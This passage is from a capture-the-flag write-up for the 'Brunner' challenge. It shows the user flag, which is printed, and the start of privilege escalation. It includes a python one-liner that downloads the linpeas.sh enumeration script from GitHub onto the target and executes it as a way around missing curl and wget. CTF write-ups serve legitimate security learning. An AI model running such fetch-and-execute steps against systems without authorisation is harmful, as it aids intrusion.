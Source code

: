Now that we have established our connection, we can begin the search for the first flag. We kept getting the http logs, which were quite annoying, unfortunately we weren’t able to get rid of them. When you land on the box the flag is in the current directory, we are able to cat out the `user.txt` file and get the flag to complete the first challenge:

![User flag](/assets/img/brunner/user.txt.png)

**Flag: brunner{fr0nt_r0w_t1ck3ts_f0r_brunn3r_4nd_b455}**
## Second part - Tickets App (Root)

We know that the final flag is placed in /root/root.txt from the challenge description, so we need to escalate to the root user. At the moment we only have the user *ctfplayer* to play with. The box doesn't have either curl or wget installed, so we need to find another way to grab [Linpeas.sh](https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md) from the web, which maybe could be able show us which way to go to gain root.

We know from the upload module of the website, that it is able to run python, so we can use this to our advantage and download linpeas.sh using python.

```bash
python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh','linpeas.sh')"
chmod +x linpeas.sh
./linpeas.sh
```

Now that we have linpeas.sh on the box, lets try to find something useful from it. The output below, stood out to us and could indicate a vulnerability on the box.

![Linpeas](/assets/img/brunner/linpeas.png)

We can see from the output from linpeas.sh that the binary `syslog-manager` could be of great interest, so we started to look into that by look at what it can do. On the screenshot below can you see how you can use the binary.

![Syslog-Manager](/assets/img/brunner/syslogmanager.png)
